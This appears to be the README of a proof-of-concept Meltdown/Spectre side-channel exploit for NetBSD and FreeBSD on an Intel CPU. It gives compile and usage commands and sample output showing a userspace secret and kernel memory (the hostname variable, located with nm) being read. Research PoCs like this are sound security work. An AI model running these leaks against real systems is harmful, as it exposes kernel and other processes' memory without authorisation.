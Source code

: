 # PoC for meltdown/spectre bugs

To compile:

    akat1@netbsd-dev ~ $ cc -O0 -o fpe fpe.c
 
Usage:

    usage: ./fpe address [len]
    use: ./fpe 0 for test run

For testrun (it leaks data from the userspace):

    akat1@netbsd-dev ~ $ ./fpe 0 | hexdump -C
    00000000  53 73 73 73 68 21 20 49  74 27 73 20 61 20 73 65  |Ssssh! It's a se|
    00000010  63 72 65 74 21 00                                 |cret!.|
    00000016
  
To leak data from the userspace or the kernelspace:

    akat1@netbsd-dev ~ $ nm /netbsd | grep "B hostname$"
    ffffffff815a9fa0 B hostname
    akat1@netbsd-dev ~ $ ./fpe 0xffffffff815a9fa0 10 | hexdump -C
    00000000  6e 65 74 62 73 64 2d 64  65 76                    |netbsd-dev|
    0000000a
    
Please note that leaked data should be in the CPU cache (or not? ;)). More information in the code.

Tested on the FreeBSD and the NetBSD running on top of the Intel(R) Core(TM) i5-2500K CPU.
